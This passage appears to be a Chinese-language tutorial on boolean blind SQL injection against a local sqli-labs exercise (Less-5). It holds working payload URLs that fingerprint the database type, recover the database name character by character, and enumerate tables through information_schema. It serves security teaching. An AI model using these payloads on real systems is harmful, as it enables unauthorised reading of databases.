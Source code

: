 # 判断是否是 Mysql数据库
http://127.0.0.1/sqli/Less-5/?id=1' and exists(select*from information_schema.tables)


# 判断是否是 access数据库
http://127.0.0.1/sqli/Less-5/?id=1' and exists(select*from msysobjects)


# 判断是否是 Sqlserver数据库
http://127.0.0.1/sqli/Less-5/?id=1' and exists(select*from sysobjects)

对于MySQL数据库，information_schema 数据库中的表都是只读的，不能进行更新、删除和插入等操作，也不能加载触发器，因为它们实际只是一个视图，不是基本表，没有关联的文件。

## information_schema.tables 存储了数据表的元数据信息，下面对常用的字段进行介绍：

table_schema: 记录数据库名；
table_name: 记录数据表名；
table_rows: 关于表的粗略行估计；
data_length : 记录表的大小（单位字节）；

# 判断当前数据库名(以下方法不适用于access数据库，因为access数据库没有database()函数)

1：判断当前数据库的长度，利用二分法
http://127.0.0.1/sqli/Less-5/?id=1' and length(database())>5   //正常显示
http://127.0.0.1/sqli/Less-5/?id=1' and length(database())>10   //不显示任何数据
http://127.0.0.1/sqli/Less-5/?id=1' and length(database())>7   //正常显示
http://127.0.0.1/sqli/Less-5/?id=1' and length(database())>8   //不显示任何数据
 
大于7正常显示，大于8不显示，说明大于7而不大于8，所以可知当前数据库长度为 8
 
2：判断当前数据库的字符,和上面的方法一样，利用二分法依次判断
//判断数据库的第一个字符
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr(database(),1,1))>100
//判断数据库的第二个字符
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr(database(),2,1))>100
 
由此可以判断出当前数据库为 security

# 判断当前数据库中的表

http://127.0.0.1/sqli/Less-5/?id=1' and exists(select*from admin)   //猜测当前数据库中是否存在admin表
1：判断当前数据库中表的个数
// 判断当前数据库中的表的个数是否大于5，用二分法依次判断，最后得知当前数据库表的个数为4
http://127.0.0.1/sqli/Less-5/?id=1' and (select count(table_name) from information_schema.tables where table_schema=database())>5 #
2：判断每个表的长度
//判断第一个表的长度，用二分法依次判断，最后可知当前数据库中第一个表的长度为6
http://127.0.0.1/sqli/Less-5/?id=1' and length((select table_name from information_schema.tables where table_schema=database()
limit 0,1))=6
 